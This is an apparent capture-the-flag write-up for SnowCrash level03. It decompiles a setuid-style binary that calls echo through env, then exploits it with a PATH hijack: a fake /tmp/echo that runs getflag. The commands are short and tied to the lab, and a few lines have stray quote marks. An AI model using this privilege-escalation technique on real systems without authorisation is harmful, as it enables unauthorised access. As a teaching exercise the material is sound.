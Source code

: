 We find a file named 'level03'.

```
level03@SnowCrash:~$ ls
level03
```

To analyze it, we transfer the file to our local machine using `scp`.

```
scp -P 4242 level03@192.168.56.101:~/level03 ./'
```

After entering the password, the transfer completes successfully.

We open `level03` in Ghidra and examine the main function:

```
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

This code sets the real and effective user IDs and then calls `/usr/bin/env echo Exploit me`. By controlling the environment, we can exploit this.

We create a custom `echo` command that runs `getflag` instead of just echoing text.

```
level03@SnowCrash:/$ echo getflag > /tmp/echo
```

Next, we make `echo` executable.

```
level03@SnowCrash:/$ chmod +x /tmp/echo'
```

Then, we update the `PATH` to prioritize `/tmp` over default directories.

```
level03@SnowCrash:/$ export PATH=/tmp:$PATH'
```

Finally, we run `level03` again.

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :
```

Success!

